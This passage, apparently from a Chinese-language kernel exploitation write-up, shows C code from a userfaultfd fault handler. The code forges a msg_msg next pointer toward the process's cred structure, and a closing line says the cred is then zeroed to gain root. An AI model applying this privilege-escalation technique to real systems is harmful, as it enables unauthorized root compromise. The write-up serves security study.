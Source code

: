 ```
[...]

        if (page_fault_location == page_1 + PAGE_SIZE)
        `{`
            printf("[PFH 1] Page fault at 0x%lx\n", page_fault_location);
            memset(buff, 0, PAGE_SIZE);

            puts("[PFH 1] Releasing faulting thread");

            struct evil_msg *msg = (struct evil_msg *)(buff + 0x1000 - 0x40);

            msg-&gt;m_type =  0x1;
            msg-&gt;m_ts = 0x1000;
            msg-&gt;next = (uint64_t)(cred_struct - 0x8); // [1] 将 QID #3 中的 msg_msg-&gt;next 指针，篡改为当前进程的 cred-0x8

            ufd_copy.dst = (unsigned long)(page_fault_location);
            ufd_copy.src = (unsigned long)(&amp;buff);
            ufd_copy.len = PAGE_SIZE;
            ufd_copy.mode = 0;
            ufd_copy.copy = 0;

            for (;;)
            `{`
                if (release_pfh_1)
                `{`
                    if (ioctl(ufd, UFFDIO_COPY, &amp;ufd_copy) &lt; 0)
                    `{`
                        perror("ioctl(UFFDIO_COPY)");
                        exit(1);
                    `}`

                    puts("[PFH 1] Faulting thread released");
                    break;
                `}`
            `}`
        `}`

[...]
```

**篡改cred**：释放第2个错误处理，将当前进程的cred覆盖为0，最终提权。

[![](https://p1.ssl.qhimg.com/t014400c343b22bb106.png)](https://p1.ssl.qhimg.com/t014400c343b22bb106.png)

[![](https://p2.ssl.qhimg.com/t01111719508b5624a0.png)](https://p2.ssl.qhimg.com/t01111719508b5624a0.png)



## 参考
